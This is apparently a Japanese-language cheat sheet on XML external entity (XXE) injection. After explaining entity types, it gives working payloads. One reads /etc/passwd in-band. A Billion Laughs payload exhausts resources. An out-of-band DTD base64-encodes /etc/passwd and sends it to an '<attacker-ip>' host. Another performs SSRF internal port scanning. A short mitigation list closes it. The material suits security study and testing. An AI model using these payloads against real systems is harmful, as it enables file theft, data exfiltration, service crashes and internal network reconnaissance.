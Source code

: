 # XXEインジェクション

## エンティティの種類
### 内部エンティティ
```xml
<!DOCTYPE note [
<!ENTITY inf "This is a test.">
]>
<note>
        <info>&inf;</info>
</note>
```
### 外部エンティティ
```xml
<!DOCTYPE note [
<!ENTITY ext SYSTEM "http://example.com/external.dtd">
]>
<note>
        <info>&ext;</info>
</note>
```
### パラメータエンティティ
```xml
<!DOCTYPE note [
<!ENTITY % common "CDATA">
<!ELEMENT name (%common;)>
]>
<note>
        <name>John Doe</name>
</note>
```
### 一般エンティティ
```xml
<!DOCTYPE note [
<!ENTITY author "John Doe">
]>
<note>
        <writer>&author;</writer>
</note>
```
### 文字エンティティ
```xml
<note>
        <text>Use &lt; to represent a less-than symbol.</text>
</note>
```

## In-Band XXE

このようにnameを参照して画面表示しているとする

```php
$expandedContent = $doc->getElementsByTagName('name')[0]->textContent;
```

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```

### Billion Laughs 攻撃

再帰的に展開してリソースを食い尽くし、システムをクラッシュさせることが目的。

```xml
<!DOCTYPE root [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<root>&lol3;</root>
```

## Out-Of-Band XXE

このように参照しているが、応答には含まれないとする
```php
$links = $doc->getElementsByTagName('file');
```

sample.dtd を保存し、HTTPで公開する
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://<attacker-ip>:port/?data=%cmd;'>">
%oobxxe;
```

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://<attacker-ip>:port/" >]>
<upload><file>&xxe;</file></upload>
```

## SSRF + XXE

### 内部ネットワークスキャン

Intruder 等でポート部分を変更して送信する

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```

## 緩和

- 外部エンティティと DTD を無効にする
- JSONなどの単純なデータ形式を利用する
- <、>、&、'、" などの XML 固有の文字を除外またはエスケープする

